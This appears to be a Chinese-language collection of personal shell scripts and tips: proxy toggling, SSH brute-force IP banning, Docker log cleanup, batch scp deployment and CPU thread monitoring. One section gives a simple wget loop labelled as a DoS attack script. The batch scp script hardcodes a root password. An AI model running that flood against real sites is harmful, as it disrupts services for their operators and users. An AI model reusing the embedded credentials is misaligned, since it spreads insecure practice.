 - [shell脚本案例](#shell脚本案例)
  - [切换代理状态](#切换代理状态)
  - [脚本合集](#脚本合集)
  - [防止暴力破解ssh密码](#防止暴力破解ssh密码)
  - [虚拟机创建初始化配置脚本](#虚拟机创建初始化配置脚本)
  - [docker日志检查 日志清理](#docker日志检查-日志清理)
  - [远程批量替换文件脚本](#远程批量替换文件脚本)
  - [wget DOS攻击简单脚本](#wget-dos攻击简单脚本)
  - [telnet可以测试端口是否开放](#telnet可以测试端口是否开放)
  - [查看CPU使用率高的线程](#查看cpu使用率高的线程)
- [shell 技巧](#shell-技巧)
  - [变量扩展语法](#变量扩展语法)
  - [文件描述符 重定向](#文件描述符-重定向)
  - [正则表达式匹配](#正则表达式匹配)
  - [shell特殊字符处理](#shell特殊字符处理)

# shell脚本案例

## 切换代理状态

```shell
function toggle_proxy_internal() {
    if [ -z "$1" ]; then
        unset http_proxy
        unset https_proxy
        echo "Proxy settings cleared."
    else
        export http_proxy="$1"
        export https_proxy="$1"
        echo "Proxy set to $1."
    fi
}

# 检查 http_proxy 和 https_proxy 是否已设置
function toggle_proxy() {
    if [ -z "$http_proxy" ] && [ -z "$https_proxy" ]; then
        toggle_proxy_internal "http://192.168.124.7:7890"
    else
        toggle_proxy_internal
    fi
}
```

## 脚本合集 

https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&__biz=MzU5NDg5MzM5NQ==&scene=1&album_id=1688640897556512775&count=3#wechat_redirect

## 防止暴力破解ssh密码
```
#!/bin/sh
#登录失败次数大于10的ip
IP=$(awk '/Failed/{print $(NF-3)}' /var/log/secure | sort |uniq -c |awk '{if($1>10) print $2}')
hostdeny=/etc/hosts.deny
for i in $IP
do
#如果ip不存在，则写入deny文件
if [ ! $(grep $i $hostdeny) ];then
echo "sshd:$i" >> $hostdeny
fi
done
```
## 虚拟机创建初始化配置脚本
```shell
sed -i '/IPADDR=192.168.3/c\IPADDR=192.168.3.xxx' /etc/sysconfig/network-scripts/ifcfg-eth0
systemctl restart network 
ip addr
```


## docker日志检查 日志清理
添加cron可以定期清理
```shell
#!/bin/sh
echo "======== docker containers logs file size ========"  
logs=$(find /var/lib/docker/containers/ -name *-json.log)  
for log in $logs  
        do  
             ls -lh $log   
        done 
```
```shell
#!/bin/sh 
echo "======== start clean docker containers logs ========"  
logs=$(find /var/lib/docker/containers/ -name *-json.log)  
for log in $logs  
        do  
                echo "clean logs : $log"  
                cat /dev/null > $log  
        done  
echo "======== end clean docker containers logs ========"  
```
## 远程批量替换文件脚本

```shell
#!/bin/bash
#scp自动替换文件
IPS="192.168.3.101 192.168.3.102 192.168.3.103 192.168.3.104 192.168.3.105 192.168.3.107 192.168.3.108 192.168.3.110"
for IP in $IPS
do
expect <<- EOF
     spawn scp /www/wwwroot/dev/app/home/view/index/index.html root@$IP:/www/wwwroot/dev/app/home/view/index/index.html
     expect {
		"yes/no" {send "yes\n"; exp_continue}
		"password:" {send "CDLSdm\n"}
	}
     expect eof
EOF
echo "$IP already done"
done
```

## wget DOS攻击简单脚本

```shell
URL="http://www...com"
while true; do
    wget -q -nc $URL -b &>/dev/null
done
```

## telnet可以测试端口是否开放

```shell
telnet 192.168.3.254 3306
```
原理我猜是建立TCP连接  

## 查看CPU使用率高的线程

```shell
#!/bin/bash
LANG=C
PATH=/sbin:/usr/sbin:/bin:/usr/bin
interval=1
length=86400
for i in $(seq 1 $(expr ${length} / ${interval}));do
date
LANG=C ps -eT -o%cpu,pid,tid,ppid,comm | grep -v CPU | sort -n -r | head -20
date
LANG=C cat /proc/loadavg
{ LANG=C ps -eT -o%cpu,pid,tid,ppid,comm | sed -e 's/^ *//' | tr -s ' ' | grep -v CPU | sort -n -r | cut -d ' ' -f 1 | xargs -I{} echo -n "{} + " && echo ' 0'; } | bc -l
sleep ${interval}
done
```

# shell 技巧

## 变量扩展语法

`readonly`说明MARIADB_USERNAME只能被赋值一次。`${MARIADB_USERNAME:-iam}`使用了Bash shell的**变量扩展语法**，其语法格式为`${待测变量:-默认值}`，表示：如果待测变量不存在或其值为空，则返回默认值，否则返回待测变量的值。

来源：goiam课程
https://github.com/marmotedu/iam/blob/book/docs/guide/zh-CN/installation/05_%E5%AE%89%E8%A3%85%E5%92%8C%E9%85%8D%E7%BD%AE%E6%95%B0%E6%8D%AE%E5%BA%93.md

## 文件描述符 重定向

设置永久重定向

Exp:
```shell
exec 3> filename
exec 2>> filename
exec 0< filename
exec 3>&1
```
## 正则表达式匹配

https://blog.csdn.net/dc666/article/details/46007507

```shell
[[ `hostname` =~ -([0-9]+)$ ]] || exit 1          
ordinal=${BASH_REMATCH[1]}
```

## shell特殊字符处理

[source](https://mp.weixin.qq.com/s?__biz=MzU5NDg5MzM5NQ==&mid=2247499943&idx=1&sn=4e1a589411368f77e932228057b48ba9&chksm=fe78cf9bc90f468ddb67f5ae794d3e360c729a86e0c113471111a88974f09e1d879d04670460&mpshare=1&scene=1&srcid=11143Xwns6V0PZas5gSKrWUt&sharer_sharetime=1668396497114&sharer_shareid=1817186607f682c2c8dc4a6ca1d644dc&version=4.1.0.6007&platform=win#rd)
